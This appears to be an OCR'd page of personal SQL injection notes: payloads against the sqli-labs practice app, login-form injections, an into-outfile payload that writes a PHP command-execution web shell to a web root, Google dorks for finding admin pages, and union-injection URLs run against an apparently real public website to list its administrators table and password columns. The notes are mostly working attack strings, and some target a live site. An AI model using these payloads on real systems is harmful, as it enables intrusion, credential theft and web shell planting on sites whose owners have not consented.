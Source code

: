 

Show columns from table
http://192.168.0.111/sqli-labs-master/Less-5/?id=1'
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,0x27,cast(column_name as char),0x27,0x7e) FROM information_schema.columns Where table_schema=Database() AND table_name=0x7573657273 LIMIT 2,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1
--+


Dump data from columns
http://192.168.0.111/sqli-labs-master/Less-5/?id=1'
and (select 1 from (select count(*),concat((select(select concat(cast(concat(username,0x7e,password) as char),0x7e)) from security.users limit 2,1),floor(rand(0)*2))x from information_schema.tables group by x)a) 
--+


http://192.168.0.111/sqli-labs-master/Less-7/?id=1'))order by 3--+

inurl:admin.(php|html|php3) site:th


http://192.168.0.111/sqli-labs-master/Less-6/?id=-1"or 1 group by concat_ws(0x3a,version(),floor(rand(0)*2)) having min(0) or 1--+


specific website ==> site:ace.com

zerofreak.blogspot.com


Local File T 

Dump Out File ==> +into+outfile+'path'
===>Path
==>Permission
http://192.168.0.111/sqli-labs-master/Less-7/?id=-1'))union select 1111,'<?php system($_GET[cmd]); ?>',333+into+outfile+'/opt/lampp/htdocs/aa.php'--+



Lesson 13
uname=admin&passwd=aa')order by 2--+&submit=Submit

Lesson 14
uname=admin"order by 2--+&passwd=aa&submit=Submit

SQL Injection Dork 2017



http://www.bible-history.com/subcat.php?id=-1 union select version()--+
http://www.bible-history.com/subcat.php?id=-1 union select database()--+ 
http://www.bible-history.com/subcat.php?id=-1 union select group_concat(table_name) from information_schema.tables where table_schema=database()--+
administrators


http://www.bible-history.com/subcat.php?id=-1 union select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='administrators'--+
admin_id,admin_username,admin_password,admin_first_name,admin_last_name
